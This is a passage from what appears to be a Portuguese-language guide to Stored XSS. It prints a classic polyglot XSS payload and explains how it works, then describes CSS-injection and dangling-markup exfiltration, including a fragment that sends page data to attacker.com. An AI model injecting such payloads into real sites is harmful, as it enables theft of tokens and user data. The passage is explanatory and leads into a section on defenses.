 ### 5.3. Payloads Poliglotas: Uma Chave para Múltiplos Contextos

Um *payload* poliglota é um *script* engenhosamente construído para ser executável em múltiplos contextos de injeção diferentes. A mesma *string* pode funcionar se for injetada diretamente em HTML, dentro de um atributo HTML entre aspas, dentro de uma *string* JavaScript, ou em um contexto de URL. Isso é extremamente útil para atacantes, especialmente em cenários de *Blind XSS*, onde o contexto de saída é desconhecido.

Um exemplo clássico de *payload* poliglota é:

```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*//+alert(42)//'>
```

A desconstrução deste *payload* revela sua versatilidade:

- `javascript:`: Permite a execução se o *payload* for injetado em um atributo que espera uma URL, como `href` ou `src`.
- `/*-->...<script>`: Esta sequência de caracteres é projetada para "escapar" de vários contextos. `-->` fecha um comentário HTML. `</title>`, `</style>`, `</textarea>`, `</script>`, `</xmp>` fecham as respectivas tags se o *payload* for injetado dentro delas.
- `<svg/onload=...>`: Utiliza uma tag SVG com um manipulador de eventos `onload`, um vetor comum para execução de *script* que pode contornar filtros que se concentram em tags `<script>`.
- `+/.../`: A sintaxe complexa restante, usando operadores e caracteres especiais, é projetada para ser válida e executável dentro de contextos de *string* JavaScript, onde aspas e outros caracteres podem ser filtrados ou escapados.

### 5.4. Exfiltração de Dados Sem Scripts: CSS Injection e Dangling Markup

Em ambientes altamente restritivos com uma *Content Security Policy* (CSP) que bloqueia eficazmente a execução de todos os *scripts*, os atacantes podem recorrer a técnicas de exfiltração de dados que não dependem de JavaScript.

- **CSS Injection**: Se um atacante pode injetar CSS arbitrário em uma página, ele pode usar seletores de atributo para vazar informações sensíveis, como um *token* anti-CSRF, caractere por caractere. A técnica funciona criando uma regra CSS que só se aplica se um atributo começar com uma determinada *string*. Se a regra for aplicada, ela pode acionar uma requisição de rede (por exemplo, através da propriedade `background: url(...)`), que vaza o caractere correspondente para um servidor controlado pelo atacante. Repetindo este processo, o valor completo do atributo pode ser reconstruído.
- **Dangling Markup Injection**: Esta técnica é usada quando um atacante pode injetar HTML, mas não *scripts*. O atacante injeta uma tag de abertura com um atributo que aponta para um recurso externo, como `<img src='//attacker.com/?data=`, mas deixa o atributo deliberadamente "pendurado" (sem a aspa de fechamento). O analisador HTML do navegador consumirá todo o conteúdo subsequente da página como parte do valor do atributo `src`, até encontrar a próxima aspa. Este conteúdo, que pode incluir dados sensíveis como *tokens* CSRF, é então enviado como parte da URL para o servidor do atacante.

## 6. Estratégias de Mitigação e Defesa em Profundidade

A prevenção eficaz de vulnerabilidades de *Stored XSS* não depende de uma única solução mágica, mas sim da implementação de uma estratégia de defesa em profundidade, com múltiplas camadas de segurança que se complementam.

### 6.1. A Dupla Defesa Fundamental: Validação de Entrada e Codificação de Saída

